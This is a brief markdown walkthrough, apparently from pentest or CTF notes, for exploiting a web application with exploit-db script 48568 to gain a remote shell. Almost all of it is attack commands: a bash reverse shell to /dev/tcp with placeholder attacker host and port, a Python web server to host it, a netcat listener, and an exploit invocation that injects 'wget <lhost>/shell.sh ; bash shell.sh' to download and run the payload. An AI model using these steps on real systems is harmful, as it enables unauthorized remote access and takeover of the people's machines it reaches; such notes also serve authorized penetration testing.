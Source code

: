 ### Prepare file shell.sh and insert
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

### Start webserver
```
sudo python3 -m http.server 80
```

### Start listener
```
nc -lvnp <lport>
```

### Exploit
```
python3 48568.py -user <user> -pass <password> -u http://<rhost> -c "wget <lhost>/shell.sh ; bash shell.sh"
```

### References
https://www.exploit-db.com/exploits/48568  

